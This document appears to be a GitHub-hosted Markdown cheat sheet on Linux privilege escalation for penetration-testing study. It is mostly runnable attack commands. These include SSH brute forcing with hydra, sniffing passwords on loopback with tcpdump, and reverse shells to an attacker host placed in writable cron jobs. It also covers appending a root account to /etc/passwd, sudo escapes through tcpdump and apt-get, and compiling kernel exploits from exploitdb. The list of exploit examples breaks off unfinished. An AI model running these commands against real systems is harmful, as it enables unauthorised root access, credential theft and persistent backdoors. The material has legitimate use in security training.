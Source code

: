 # Linux Privilege Escalation

## Manual enumeration

Commands:
- `id`
- `cat /etc/passwd`
- `hostname`
- `cat /etc/issue`
- `cat /etc/os-realease`
- `uname -a`
- `ps aux`
- `ip a`, `ifconfig`
- `route`, `routel`
- `ss -anp`, `netstat -anp`
- `cat /etc/iptables/rules.v4`
- `ls -lah /etc/cron*`
- `crontab -l`
- `sudo crontab -l`
- `dpkg -l`
- `find / -writable -type d 2> /dev/null`
- `cat /etc/fstab`
- `mount`
- `lsblk`
- `lsmod`
- `/sbin/modinfo some_kernel_module`
- `find / -perm -u=s -type f 2> /dev/null`

## Automated enumeration

Initial baseline:
```
/usr/bin/unix-privesc-check
```
Check for example writable config files.

Other tools:
- LinEnum: https://github.com/rebootuser/LinEnum
- LinPeas: https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

## Credentials

### Hidden in text files

Check:
- `env`
- `cat .bashrc`
- `su - root`
- `sudo -l`

### Brute force ssh with password hints

With a hint of password:
```
crunch 19 19 -t Hint_Of_Password%%% > wordlist
hydra -l user -P wordlist $VictimIP -t 4 ssh -V
```

### Hidden passwords in Services

```
watch -n1 "ps aux | grep pass | grep -v grep | fold -s
sudo tcpdump -i lo -A | grep "pass"
```

## Cron jobs

If the cron job is writeable, add a reverse shell:
```
bash -i >& /dev/tcp/$AttackerIp/$AttackerPort 0>&1
rm /tmp/f ; mkfifo /tmp/f ; cat /tmp/f | /bin/sh -i 2>&1 | nc $AttackerIp $AttackerPort > /tmp/f
```
Rshells: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

## Passwd file

```
openssl passwd passwordtohash
echo "newadmin:somehashstring:0:0:root:/root:/bin/bash" >> /etc/passwd
```

## Capabilities

References:
- https://man7.org/linux/man-pages/man7/capabilities.7.html
- https://gtfobins.github.io/
```
/usr/sbin/getcap -r / 2> /dev/null
```

## SUID

Source: https://gtfobins.github.io/
```
find / -perm /6000 -exec ls -ld {} \; # setuid + setgid
grep Uid /proc/some_proc_number/status
ls -asl /usr/bin/some_binary
```

## Sudo

Check the commands usable with `sudo`:
```
sudo -l
```
then try to elevate privileges with them with [GTFObins](https://gtfobins.github.io/). For example:
- `tcpdump`: https://gtfobins.github.io/gtfobins/tcpdump/#sudo
```
COMMAND='id'
TF=$(mktemp)
echo "$COMMAND" > $TF
chmod +x $TF
sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
```
Check possible error messages in `/etc/var/messages`.
- `apt-get`: https://gtfobins.github.io/gtfobins/apt-get/#sudo
```
hackeduser@hackedtarget $: sudo apt-get changelog apt
```
and in `less`:
```
!/bin/sh
```
Check the escalation with the `id` command.

## Kernel vulnerabilities

Retrieve the kernel version and try to find an exploit on [exploitdb](https://www.exploit-db.com/):
- kernel version:
```
cat /etc/issue
uname -r
arch
```
- `searchsploit` command:
```
searchsploit -u
searchsploit "Linux kernel x.y.z privilege escalation" | grep -v ' < a.b.c'
```
- run the exploit:
```
cp /usr/share/exploitdb/exploits/linux/local/exploin_number.c ./num.c
gcc num.c
scp a.out hackeduser@TargetIp:
./a.out
```
Check with the `id` command.

## Misc

### Other resources

- https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Linux - Privilege Escalation.md
- https://book.hacktricks.xyz/linux-hardening/privilege-escalation

### Examples of exploits

- PwnKit: https://github.com/ly4k/PwnKit
- 
